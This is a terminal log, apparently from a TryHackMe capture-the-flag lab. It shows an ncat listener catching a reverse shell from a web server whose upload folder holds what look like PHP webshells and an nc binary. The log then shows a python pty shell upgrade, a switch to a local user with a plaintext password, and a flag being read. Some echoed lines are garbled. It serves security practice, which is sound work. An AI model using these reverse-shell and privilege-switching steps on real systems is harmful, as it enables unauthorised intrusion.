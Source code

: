 ```
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.138.76.
Ncat: Connection from 10.10.138.76:54715.
www-data@Erit:/var/www/html/public/files$ python -c 'import pty;pty.spawn("/bin/bash")'
bash")'-c 'import pty;pty.spawn("/bin/b
www-data@Erit:/var/www/html/public/files$ ls
ls
cmd.php                       placeholder_ecff05026ae6.jpg  test25.php
index.html                    test1.php                     test26.php
nc                            test10.php                    test27.php
placeholder_07f6539b3d7d.jpg  test11.php                    test28.php
placeholder_0a23551a8097.jpg  test12.php                    test29.php
placeholder_0aa7e8852e11.jpg  test13.php                    test3.php
placeholder_1fad82e5eac1.jpg  test14.php                    test30.php
placeholder_20001088e915.jpg  test15.php                    test31.php
placeholder_46f89a97453b.jpg  test16.php                    test32.php
placeholder_6a843969b527.jpg  test17.php                    test33.php
placeholder_7c21b25839bd.jpg  test18.php                    test4.php
placeholder_84f5c9d2e2c2.jpg  test19.php                    test5.php
placeholder_8a7754ace050.jpg  test2.php                     test6.php
placeholder_8ec2add549d6.jpg  test20.php                    test7.php
placeholder_9cf46a03a9c3.jpg  test21.php                    test8.php
placeholder_aa536d42187b.jpg  test22.php                    test9.php
placeholder_addfa01cba49.jpg  test23.php
placeholder_c45564b83b31.jpg  test24.php
www-data@Erit:/var/www/html/public/files$ cd /home
cd /home
www-data@Erit:/home$ ls
ls
wileec
www-data@Erit:/home$ su wileec
su wileec
Password: snickers

$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
wileec@Erit:/home$ ls                 ls
ls
wileec
wileec@Erit:/home$ cd wileec          cd wileec
cd wileec
wileec@Erit:~$ ls             ls
ls
flag1.txt
wileec@Erit:~$ cat flag1.txt  cat flag1.txt
cat flag1.txt
THM{Hey!_Welcome_in}

or upgrading another way

$ SHELL=/bin/bash script -q /dev/null
```
